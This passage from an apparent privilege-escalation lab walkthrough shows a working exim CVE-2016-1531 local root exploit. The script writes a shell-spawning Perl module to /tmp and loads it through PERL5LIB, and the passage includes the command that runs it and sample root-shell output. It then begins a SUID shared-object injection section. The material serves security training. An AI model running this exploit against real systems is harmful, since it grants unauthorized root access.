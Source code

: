 ```bash
#!/bin/sh
# CVE-2016-1531 exim <= 4.84-3 local root exploit
echo [ CVE-2016-1531 local root exploit
cat > /tmp/root.pm << EOF
package root;
use strict;
use warnings;

system("/bin/sh");
EOF
PERL5LIB=/tmp PERL5OPT=-Mroot /usr/exim/bin/exim -ps
```

**Explanation:**  
This script creates a Perl module (`/tmp/root.pm`) that is then loaded by `exim` using manipulated environment variables. When `exim` runs, it executes the Perl module, which in turn spawns a root shell.

**2. Execute the Exploit:**

```bash
sh /home/user/tools/suid/exim/cve-2016-1531.sh
```

**Sample Output:**

```bash
[ CVE-2016-1531 local root exploit
sh-4.1# id
uid=0(root) gid=1000(user) groups=0(root)
```

**Explanation:**  
Running the exploit script successfully spawns a root shell, providing full administrative access to the system.

### Cleanup

After confirming root access, exit the shell:

```bash
exit
```

### Q1. Follow the steps above.

**No Answer Needed**

## SUID / SGID Executables - Shared Object Injection

### Step 1: Identify the Vulnerability

The `/usr/local/bin/suid-so` executable is a SUID program, which means it runs with elevated privileges, typically root. This executable is vulnerable to shared object injection, a technique where the program is tricked into loading a malicious shared object that grants higher privileges or executes arbitrary code.
